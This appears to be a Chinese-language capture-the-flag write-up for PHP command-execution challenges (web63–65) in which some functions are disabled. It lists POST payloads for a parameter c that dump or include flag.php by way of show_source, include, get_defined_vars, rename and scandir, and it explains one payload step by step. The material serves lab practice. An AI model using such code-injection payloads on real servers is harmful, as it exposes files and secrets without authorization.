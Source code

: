 # web63: 命令执行，禁用函数

```
使用POST方法
法一
c=highlight('flag.php');
法二
c=show_source('flag.php');
法三：
c=include('flag.php');echo $flag;  
法四：
c=include('flag.php');var_dump(get_defined_vars());    //如果知道文件名，使用include将文件加载到当前脚本的作用域中，get_defined_vars()是拿到当前作用域的所有变量
```
你的代码片段 `c=include('flag.php'); var_dump(get_defined_vars());` 可以分解为以下步骤：
1. **执行 `include('flag.php')`**
    - 加载并执行 `flag.php`，假设该文件中定义了 `$flag` 变量（例如 `$flag = "flag{xxx}";`）。
    - `include` 的返回值通常是 `1`（表示成功包含文件），除非 `flag.php` 中显式使用 `return` 返回值（例如 `return "success";`）。
2. **将 `include` 的返回值赋给变量 `c`**
    - 如果 `flag.php` 中没有 `return` 语句，`c` 的值会是 `1`；否则会是 `flag.php` 中 `return` 的内容。
3. **调用 `get_defined_vars()`**
    - 该函数会返回一个数组，包含当前作用域中所有已定义的变
	 4.**输出变量信息**
- 使用 `var_dump()` 输出 `get_defined_vars()` 的结果，显示所有变量的名称和值。

# web64: 命令执行，禁止函数

```
使用POST方法
法一
c=highlight('flag.php');
法二
c=show_source('flag.php');
法三：
c=include('flag.php');echo $flag;  
法四：
c=include('flag.php');var_dump(get_defined_vars()); 
法五；
c=rename('flag.php','1.txt')   //重命名，然后访问1，txt,可惜此题被禁用
法六：
c=print_r(scandir('.'))    //读取当前文件夹所有目录
c=show_source('flag.php');
```

# web65: 命令执行，禁止函数

```
c=show_source('flag.php');
```
